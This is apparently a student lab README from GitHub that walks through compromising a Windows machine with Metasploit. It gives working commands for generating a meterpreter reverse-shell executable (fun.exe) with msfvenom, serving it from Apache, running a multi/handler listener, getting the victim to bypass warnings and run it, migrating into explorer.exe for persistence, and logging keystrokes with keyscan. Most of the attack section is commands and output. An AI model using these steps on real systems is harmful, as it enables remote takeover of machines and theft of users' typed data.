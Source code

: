 # Compromising-windows-using-Metasploit

Compromising windows using Metasploit

# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

### PROGRAM:
Find the attackers ip address using ifconfig
#### OUTPUT:

![if-config](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/d81c29e7-4cb2-4989-a4f0-32d0f4dcffa5)

Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
#### OUTPUT
![msfvenom](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/a8e477e7-1f5b-4831-a003-ffc199679313)

copy the fun.exe into the apache /var/www/html folder

![cpfunexe](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/edc15bf9-0646-4d77-a7b2-7fbe6adae449)

Start apache server
sudo systemctl apache2 start

![startapache2](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/f2bdb40b-22b8-409e-8295-7cac780eab89)

Check the status of apache2

![status](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/d5dca89e-d102-408d-aa25-d60e7e09ff2b)

Invoke msfconsole:
## OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server
use multi/handler

![usemultihandler](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/31c4d664-f12a-45a9-aa29-e988f03e88e1)

set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![download](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/a6b73051-a143-4740-b3d9-27c23762218f)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![exploit](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/b46a08f7-a9fc-4e71-8fdd-170ee187dd22)

To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

![meterpreter-ps](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/7e6e28fb-b095-4fd1-81f8-a0292f82c9a2)


The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

![migrate-Nexplorer](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/836e6efa-423f-4553-ad2f-19170b010892)

Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![notepad](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/35be18d7-51b0-4529-8fd8-76740f0c9ba6)
keyscan_dump	Shows the keystrokes captured so far
![keyscan_dump](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/d40a4428-0c65-4855-be1d-c278766082fb)






## RESULT:
The Metasploit framework for reconnaissance is  examined successfully
